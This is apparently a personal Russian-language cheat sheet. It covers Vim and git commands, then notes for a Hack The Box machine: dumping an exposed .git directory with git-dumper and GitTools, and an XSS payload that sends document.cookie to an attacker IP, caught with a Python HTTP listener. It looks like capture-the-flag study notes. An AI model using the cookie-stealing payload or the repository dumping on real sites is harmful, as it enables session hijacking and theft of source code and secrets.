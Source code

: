 # -VIM

# Замена всех слов на другие 
        %s/word1/word2/g         - где g - заменять все всхождения а не только первое 
        dd - удалитьь строку
        shift + y - корирование выделеннной строки
        shift + р - вставка выделеннной строки        
        dd - удалить строку

# Git Hub

#set git config values #Авторизация

        git pull - Стянуть

        git checkout - переключение веток
        
        git config --global user.name "ваше имя"

        git config --global user.email "ваше_мыло@gmail.com"

        git config --global github.user ник

        git config --global github.token your_token_here#Основные команды гит:

        git clone [url]

        git add . - Добавить все (. - Обозначает текущий каталог со всем содержимым)

        git commit -m "mesage" - Создать комит

        git push - отправить

        git rn file_name - удалить из репозитория

        git branch branch_name - создать ветку
        
        git merge - сливает ветку с текущей
        
        git status - получить статус
        
         
# Git-Dumper (сКАЧИВАЕМ .GIT И вытягиваем с него файлы)

https://github.com/arthaud/git-dumper
https://github.com/internetwache/GitTools/tree/master/Dumper        
        
        git-dumper http://cat.htb/.git dump

        https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh

        ./extractor.sh dump git-ext
        
# XSS () в уязвимомо месте пишем)
        
        <script>document.location='http://10.10.14.252:4444/?c='+document.cookie;</script>
        и ловим отстук 
        python3 -m http.server 4444


 	https://webhook.site/d7110bf3-8246-4764-ac2e-fef55a74f93a?cmd=10
  
